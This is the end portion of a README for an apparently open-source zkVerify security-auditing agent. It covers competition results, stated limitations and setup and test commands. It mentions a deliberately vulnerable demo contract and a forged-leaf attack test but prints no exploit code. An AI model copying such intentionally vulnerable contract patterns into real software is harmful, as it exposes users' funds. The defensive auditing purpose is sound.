| `THRESHOLD_MISMATCH`, `RECIPIENT_MISMATCH`, `AMOUNT_OVERFLOW` | public inputs don't match the action | **E1b** (bind the values you act on) |
| `EXPIRED_CONDITION` | a stale condition | context check |
| `VALID_CONDITION` | approve only when everything holds | — |

Our agent decides with five integer checks in the trap list's order, proves each answer with the official circuit,
and keeps a durable replay store. **Every practice verdict the platform returned to us was correct (17 of 17, all
seven trap types), with proofs verified, in 0.4–2.0 s.**



One detail worth knowing if you build for it: the gatekeeper circuit *forces* the decision from the arithmetic, so on a
`PROOF_REUSED` task (whose numbers all pass) no valid REJECT proof exists. We send REJECT without a proof, and the
platform scores it correct.

**Steal the VFY.** Every move must carry a policy proof from the official circuit. The circuit only allows threshold
policies, and an exhaustive search over all 87,120 of them, checked independently by two other models, finds nothing
that beats "extract 10 every turn". Our agent plays that and proves every move. First match: **won 180–2**, with the
full reliability bonus.

---

## 10. Honest limits

- **Five rules, not all bugs.** A consumer can be wrong in ways these rules don't model. That's why the fix is also
  tested dynamically (section 7), and why every claim in the chat is backed by a tool result.
- **The end-to-end receipt on a fork needs a Kurier key.** Until one is set, those 3 tests are skipped and say so.
  The forged leaf and the zkVerify key hashes above are real; the attacker's on-chain aggregation is exercised in the
  Foundry test with an aggregator fixture.
- **The second-opinion review** from another model needs its own key and shows "Setup required" without it.
- **Demo targets are ours.** We wrote `VulnerableMint` to the common consumer pattern; we don't exploit anyone's
  deployed contract.

---

## 11. Try it yourself

```bash
git clone --recursive https://github.com/nickthelegend/elenchos && cd elenchos
pnpm install && pnpm -r test             # 35 package tests: real proofs, a real zkVerify node, the real Sepolia verifier
cd contracts && forge test                # the attack-holds proof and the Solidity/TypeScript leaf parity
python3 ../detectors/elenchos_scan.py src/demo/VulnerableMint.sol
```

The case room needs `ANTHROPIC_API_KEY`, then
`node --experimental-strip-types packages/agent/src/server.ts` and open `http://localhost:8787`.

---

*Elenchos is open source (MIT), built for the zkVerify Agent Games, Nov 2026. zkVerify proves the proof. Elenchos
checks the code that trusts it. #AgentGames*
